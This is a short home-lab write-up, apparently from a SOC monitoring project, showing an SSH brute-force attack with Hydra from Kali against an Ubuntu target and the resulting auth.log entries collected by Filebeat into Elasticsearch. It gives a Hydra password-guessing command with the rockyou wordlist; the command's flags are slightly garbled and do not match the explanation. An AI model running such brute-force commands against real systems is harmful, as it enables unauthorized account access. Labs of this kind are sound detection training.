


# SSH Brute Force Attack

The attacker used Hydra from Kali Linux to perform a brute-force attack against the SSH service running on the Ubuntu target.

This attack attempts multiple username and password combinations(from Kali's inbuilt wordlist, rockyou(extract)) until valid credentials are discovered.

## Command
```
hydra -L users.txt -P rockyou-extract.txt ssh:// -t -32 -V
```

## Explanation

- `-L users.txt` → list of usernames
- `-P rockyou-extract.txt` → password wordlist in Kali (1000 extract)
- `ssh://<Target IP>` → target SSH service
- `-t 32` → number of parallel attack threads
- `-V` → verbose output

Hydra begins attempting multiple login combinations.

## Attack Execution




These attempts generate authentication failures in the Ubuntu system logs.

## Target Log Evidence

On the Ubuntu server:
```
sudo tail -f /var/log/auth.log
```



These logs are collected by Filebeat and sent to Elasticsearch for SOC monitoring.

